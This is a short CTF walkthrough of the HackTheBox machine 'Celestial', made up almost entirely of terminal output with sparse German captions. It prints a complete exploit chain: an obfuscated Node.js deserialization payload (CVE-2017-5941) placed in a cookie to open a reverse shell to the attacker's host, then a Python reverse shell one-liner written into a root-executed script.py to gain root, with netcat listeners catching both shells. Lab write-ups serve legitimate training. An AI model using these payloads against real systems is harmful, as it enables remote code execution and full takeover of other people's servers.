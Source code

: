 ```yaml
---
title: "HackTheBox - Celestial"
date: 2010-01-01T01:01:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
---
```


[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

root@kali:~# nmap -sV -sC 10.10.10.85  
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-28 16:04 CEST  
Nmap scan report for 10.10.10.85  
Host is up (0.046s latency).  
Not shown: 999 closed ports  
PORT STATE SERVICE VERSION  
3000/tcp open http Node.js Express framework  
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 26.92 seconds

bild1

Hey Dummy 2 + 2 is 22

bild2

Cookie: profile={"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"} Ã

Cookie: profile={"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"0"} Ã

encode

bild3

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

https://hd7exploit.wordpress.com/2017/05/29/exploiting-node-js-deserialization-bug-for-remote-code-execution-cve-2017-5941/

https://github.com/hoainam1989/training-application-security/blob/master/shell/node_shell.py

root@kali:~# python node_shell.py

Usage: node_shell.py <TYPE> <HOST> <PORT> <ENCODE>  
Help:  
-c : Run some linux commands (ls,cat...)  
-r : Get payload reverse shell  
-b : Get payload bind shell  
-h : IP address in case of reverse shell  
-p : Port  
-e : Encode shell  
-o : Create a object contain payload with Immediately invoked function expression (IIFE)

root@kali:~# python node_shell.py -r -h 10.10.15.234 -p 1337 -e -o

=======> Happy hacking <======

{"run": "_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,32,32,32,32,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,32,32,32,32,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,32,32,32,32,72,79,83,84,61,34,49,48,46,49,48,46,49,53,46,50,51,52,34,59,10,32,32,32,32,80,79,82,84,61,34,49,51,51,55,34,59,10,32,32,32,32,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,32,32,32,32,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,32,32,32,32,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,10,32,32,32,32,99,40,72,79,83,84,44,80,79,82,84,41,59,10,32,32,32,32))}()"}

root@kali:~#

bild4

encode

== zu %3d  url encode

root@kali:~# nc -lnvp 1337

root@kali:~# nc -lnvp 1337  
listening on [any] 1337 ...  
connect to [10.10.15.234] from (UNKNOWN) [10.10.10.85] 54070  
Connected!  
python -c "import pty;pty.spawn('/bin/bash')"  
sun@sun:~$

sun@sun:~$ ls -alh  
ls -alh  
total 156K  
drwxr-xr-x 21 sun sun 4.0K Aug 28 06:45 .  
drwxr-xr-x 3 root root 4.0K Sep 19 2017 ..  
-rw------- 1 sun sun 1 Mar 4 15:24 .bash_history  
-rw-r--r-- 1 sun sun 220 Sep 19 2017 .bash_logout  
-rw-r--r-- 1 sun sun 3.7K Sep 19 2017 .bashrc  
drwx------ 13 sun sun 4.0K Nov 8 2017 .cache  
drwx------ 16 sun sun 4.0K Sep 20 2017 .config  
drwx------ 3 root root 4.0K Sep 21 2017 .dbus  
drwxr-xr-x 2 sun sun 4.0K Sep 19 2017 Desktop  
-rw-r--r-- 1 sun sun 25 Sep 19 2017 .dmrc  
drwxr-xr-x 2 sun sun 4.0K Aug 28 09:28 Documents  
drwxr-xr-x 2 sun sun 4.0K Sep 19 2017 Downloads  
-rw-r--r-- 1 sun sun 8.8K Sep 19 2017 examples.desktop  
drwx------ 2 sun sun 4.0K Sep 21 2017 .gconf  
drwx------ 3 sun sun 4.0K Aug 28 06:16 .gnupg  
drwx------ 2 root root 4.0K Sep 21 2017 .gvfs  
-rw------- 1 sun sun 6.6K Aug 28 06:16 .ICEauthority  
drwx------ 3 sun sun 4.0K Sep 19 2017 .local  
drwx------ 4 sun sun 4.0K Sep 19 2017 .mozilla  
drwxr-xr-x 2 sun sun 4.0K Sep 19 2017 Music  
drwxrwxr-x 2 sun sun 4.0K Sep 19 2017 .nano  
drwxr-xr-x 47 root root 4.0K Sep 19 2017 node_modules  
-rw-rw-r-- 1 sun sun 20 Sep 19 2017 .node_repl_history  
drwxrwxr-x 57 sun sun 4.0K Sep 19 2017 .npm  
-rw-r--r-- 1 root root 21 Aug 28 10:00 output.txt  
drwxr-xr-x 2 sun sun 4.0K Sep 19 2017 Pictures  
-rw-r--r-- 1 sun sun 655 Sep 19 2017 .profile  
drwxr-xr-x 2 sun sun 4.0K Sep 19 2017 Public  
-rw-rw-r-- 1 sun sun 66 Sep 20 2017 .selected_editor  
-rw-rw-r-- 1 sun sun 870 Sep 20 2017 server.js  
-rw-rw-r-- 1 sun sun 610 Aug 28 06:45 shell1.js  
-rw-r--r-- 1 sun sun 0 Sep 19 2017 .sudo_as_admin_successful  
drwxr-xr-x 2 sun sun 4.0K Sep 19 2017 Templates  
drwxr-xr-x 2 sun sun 4.0K Sep 19 2017 Videos  
-rw------- 1 sun sun 48 Aug 28 06:16 .Xauthority  
-rw------- 1 sun sun 82 Aug 28 06:16 .xsession-errors  
-rw------- 1 sun sun 1.3K Mar 7 08:33 .xsession-errors.old

sun@sun:~$ cat output.txt  
cat output.txt  
Script is running...

sun@sun:~$ cd Documents  
cd Documents  
sun@sun:~/Documents$ ls -alh  
ls -alh  
total 16K  
drwxr-xr-x 2 sun sun 4.0K Aug 28 09:28 .  
drwxr-xr-x 21 sun sun 4.0K Aug 28 06:45 ..  
-rw-rw-r-- 1 sun sun 29 Sep 21 2017 script.py  
-rw-rw-r-- 1 sun sun 33 Sep 21 2017 user.txt  
sun@sun:~/Documents$ cat user.txt  
cat user.txt  
9a0##########################b0f  
sun@sun:~/Documents$ cat script.py  
cat script.py  
print "Script is running..."

sun@sun:~/Documents$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.234",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > script.py  
bprocess.call(["/bin/sh","-i"]);' > script.pycket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.234",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=su  
sun@sun:~/Documents$

root@kali:~# nc -lnvp 1234  
listening on [any] 1234 ...  
connect to [10.10.15.234] from (UNKNOWN) [10.10.10.85] 59534  
/bin/sh: 0: can't access tty; job control turned off  
# id  
uid=0(root) gid=0(root) groups=0(root)  
# cat /root/root.txt  
ba1##########################95a